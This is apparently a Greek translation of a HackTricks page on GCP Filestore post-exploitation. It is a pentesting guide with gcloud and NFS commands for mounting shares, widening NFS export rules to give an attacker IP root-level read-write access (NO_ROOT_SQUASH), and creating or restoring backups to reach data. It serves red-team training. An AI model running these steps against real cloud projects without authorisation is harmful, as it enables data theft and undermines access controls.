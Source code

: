 # GCP - Εκμετάλλευση μετά την παραβίαση του Filestore

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Filestore

Για περισσότερες πληροφορίες σχετικά με το Filestore, ελέγξτε:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Τοποθέτηση του Filestore

Ένα κοινόχρηστο αρχείοσυστημα **μπορεί να περιέχει ευαίσθητες πληροφορίες** που ενδιαφέρουν από την άποψη ενός επιτιθέμενου. Με πρόσβαση στο Filestore είναι δυνατή η **τοποθέτησή του**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Για να βρείτε τη διεύθυνση IP ενός αρχείου αποθήκευσης, ελέγξτε την ενότητα απαρίθμησης της σελίδας:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Αφαιρέστε τους περιορισμούς και αποκτήστε επιπλέον δικαιώματα

Αν ο επιτιθέμενος δεν έχει πρόσβαση από μια διεύθυνση IP στον κοινόχρηστο χώρο, αλλά έχετε αρκετά δικαιώματα για να το τροποποιήσετε, είναι δυνατόν να αφαιρέσετε τους περιορισμούς ή να αποκτήσετε πρόσβαση σε αυτό. Είναι επίσης δυνατόν να χορηγήσετε περισσότερα προνόμια στη διεύθυνση IP σας για να έχετε διαχειριστική πρόσβαση στον κοινόχρηστο χώρο:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Αποκατάσταση ενός αντιγράφου ασφαλείας

Εάν υπάρχει ένα αντίγραφο ασφαλείας, είναι δυνατόν να το **αποκαταστήσετε** σε μια υπάρχουσα ή σε μια νέα περίπτωση, έτσι ώστε οι **πληροφορίες να γίνουν προσβάσιμες:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Δημιουργία αντιγράφου ασφαλείας και αποκατάστασή του

Εάν **δεν έχετε πρόσβαση σε ένα κοινόχρηστο φάκελο και δεν θέλετε να τον τροποποιήσετε**, είναι δυνατόν να **δημιουργήσετε ένα αντίγραφο ασφαλείας** του και να το **αποκαταστήσετε** όπως αναφέρθηκε προηγουμένως:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
